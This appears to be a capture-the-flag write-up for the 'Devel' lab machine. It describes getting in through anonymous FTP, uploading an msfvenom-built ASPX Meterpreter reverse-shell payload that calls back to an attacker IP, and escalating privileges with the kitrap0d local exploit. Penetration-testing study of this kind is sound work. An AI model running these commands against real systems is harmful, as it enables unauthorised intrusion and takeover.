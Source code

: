 Devel Writeup

Nmap results showed port 21 and 80 open.  Port 21 is the default port for FTP, and port 80 is the default port for HTTP.

Successfully access FTP server @ 10.10.10.5 using command 'ftp 10.10.10.5'. Attempted to use anonymous login and was able to gain access without a correct password.

Created test.html file and used 'put test.html' to upload file to server. Then called test.html in browser using '10.10.10.5/test.html' as address. HTML file was uploaded and loaded successfully. This presented the opportunity of dropping a reverse shell onto the target and gaining access through a meterpreter listener.

Accessed Metasploit using 'msfconsole' where I utilised the 'exploit/multi/handler' exploit to set up a listener. I configured the payload to 'windows/meterpreter/reverse_tcp' which I will use to create the reverse shell later. 

'show options' shows required configurations for exploits, and identified I needed to configure LHOST and LPORT, which LHOST was configured to tun0 (Machine IP of 10.10.14.7).

MSFVenom was utilised to create a reverse shell using the command 'msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.7 LPORT=4444 -f aspx > devel.aspx'. This created a TCP reverse shell payload in an aspx file set with the LHOST and LPORT required and output to devel.aspx.

Going back to the FTP, I used the PUT command as such 'put devel.aspx' to upload the payload to the server. After, I was able to go back to the Metasploit where I ran the listener, and navigated to '10.10.10.5/devel.aspx'. By running the listener and then navigating to devel.aspx in the browser, the reverse shell was executed and a connection was made.

I put the meterpreter session in the background and ran a 'search suggest' to find the local_exploit_suggester. This required configuration as well, to identify the session and once that was set I was able to run the module. 

The results identified 'exploit/windows/local/ms10_015_kitrap0d' which I copied and ran in metasploit. This exploit required configuration for session, and needed modifications to lhost and lport. Once configured and ran, I was able to gain access to a meterpreter session with elevated priviledges. 

From here I navigated to the desktop of both babi and administrator to get the flags. 